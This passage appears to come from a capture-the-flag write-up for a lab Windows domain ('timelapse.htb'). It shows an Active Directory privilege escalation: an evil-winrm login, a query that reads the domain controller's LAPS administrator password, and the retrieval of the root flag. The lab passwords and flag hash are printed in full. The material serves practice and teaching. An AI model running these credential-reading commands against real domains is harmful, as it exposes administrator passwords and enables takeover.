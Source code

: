 ```
INFO: Querying computer: 
INFO: Done in 00M 05S
```
![capture-13](capture-13.PNG)
Reading through bloodhound, we find that svc_deploy has `ReadLAPSPassword`.<br>
[ReadLAPSPassword abuse](https://bloodhound.specterops.io/resources/edges/read-laps-password)
![capture-14](capture-14.PNG)

Connecting via winrm SSL, we can enter the following command to read the laps password.
```
$ evil-winrm -i 10.129.161.13 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'


DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-mcs-admpwd               : c%5,7g76g.sfI@FQ)1n60Px7
ms-mcs-admpwdexpirationtime : 133972158571996343
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```
![capture-16](capture-16.PNG)

With the administrator password, connect via winrm and read `TRX's` desktop to recieve the root flag.
```
*Evil-WinRM* PS C:\Users\TRX> cd Desktop
*Evil-WinRM* PS C:\Users\TRX\Desktop> type root.txt
b01be756c6da877038df527a8d1e0ca2
*Evil-WinRM* PS C:\Users\TRX\Desktop> 
```
![capture-18](capture-18.PNG)